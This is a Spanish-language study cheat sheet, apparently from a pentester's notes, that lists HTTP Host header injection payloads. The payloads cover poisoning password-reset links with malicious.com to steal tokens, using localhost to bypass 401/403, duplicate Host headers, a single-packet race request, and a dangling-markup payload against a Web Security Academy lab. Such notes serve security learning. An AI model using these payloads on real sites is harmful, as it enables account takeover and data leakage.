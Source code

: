 -- -
### **1. Modificar cabecera Host agregando un dominio malicioso**
- El objetivo es que el host que ingresado sea el cual se inyecte en el link que se envia a la victima para intentar secustrar sus token.
```http
Host: malicious.com
```

### **2. Modificar cabecera Host con valor localhost o collaborator**
- El objetivo es que el servidor crea que la solicitud proviene del propio localhost con el fin de bypassear **403** y **401**
```http
Host: localhost
Host: collaborator.com
```

### **3. Agregar 2da cabecera host con dominio malicioso**
- El objetivo es que el servidor se confunda y termine reflejando en la request el malicious.com.
```http
Host: site.com
Host: malicious.com
```

### **4. Agregar ruta absoluta en el path de la request**
- El objetivo es que el servidor se confunda y termine reflejando en la request el malicious.com.
```http
GET https://site.con/ HTTP/2
Host: localhost
```

### **5. Enviar 2 solicitudes a la misma vez siendo una valida y otra maliciosa (single state attack)**
**Request1:**
```http
GET / HTTP/1.1
Host: site.com
```

**Request2:**
```http
GET / HTTP/1.1
Host: malicious.com
```
![[Pasted image 20251001183650.png]]

### **5. Via Dangling Markup**
- Consiste en modificar la cabecera host ya que en base a esta se construye una url la cual se incrusta en un documento html y al ser alterada se puede exifltrar datos y explotar XSS.
```http
POST /forgot-password HTTP/2
Host: 0adc00ea04bc641b806a3aab006b00ed.web-security-academy.net:'<a href="https://malicious.com/?

```

--- -
### **Aclaracion**
- Probar cambiar a HTTP1.1 si es que por default esta en HTTP2.012